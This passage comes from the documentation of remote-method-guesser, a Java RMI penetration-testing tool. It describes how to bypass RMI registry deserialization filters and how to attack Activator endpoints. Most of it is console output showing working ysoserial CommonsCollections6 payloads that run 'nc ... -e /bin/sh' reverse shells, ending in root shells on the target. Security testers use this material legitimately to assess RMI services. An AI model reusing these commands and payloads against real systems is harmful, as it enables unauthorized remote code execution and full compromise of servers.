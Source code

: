 In case of the *RMI registry*, the *deserialization filters* may be bypassed by using the [JRMPClient](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/JRMPClient.java)
or the [An Trinh](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/) bypass gadgets. These gadgets create an *outbound RMI channel*
that does no longer apply *deserialization filters*. On this channel, deserialization attacks can be applied as usual, but both bypasses were patched
in the most recent versions of *Java RMI*.

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 reg AnTrinh 172.17.0.1:4444
[+] 
[+] Attempting deserialization attack on RMI Registry endpoint...
[+] 
[+] 	Caught javax.management.BadAttributeValueExpException during deserialization attack.
[+] 	This could be caused by your gadget an the attack probably worked anyway.
[+] 	If it did not work, you can retry with --stack-trace to see the details.

[qtc@kali ~]$ rmg 0.0.0.0 4444 listen CommonsCollections6 "nc 172.17.0.1 4445 -e ash"
[+] Creating ysoserial payload... done.
[+] Creating a JRMPListener on 0.0.0.0:4444.
[+] Handing off to ysoserial...
Have connection from /172.17.0.2:52610
Reading message...
Sending return with payload for obj [0:0:0, 123]

[qtc@kali ~]$ nc -vlp 4445
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:40023.
id
uid=0(root) gid=0(root) groups=0(root)
```

During it's ``enum`` action, *remote-method-guesser* informs you whether an *Activator* is present on the *RMI endpoint* (legacy *RMI mechanism*).
The default implementation for the *Activation system* does not implement any deserialization filters for the *Activator RemoteObject*. Therefore,
deserialization attacks on an *Activator* endpoint should always work, even on most recent *Java versions*.

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 act CommonsCollections6 "nc 172.17.0.1 4444 -e /bin/sh"
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on Activation endpoint...
[+] 
[+] 	Caught IllegalArgumentException during deserialization attack.
[+] 	Deserialization attack was probably successful :)

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:39655.
id
uid=0(root) gid=0(root) groups=0(root)
```
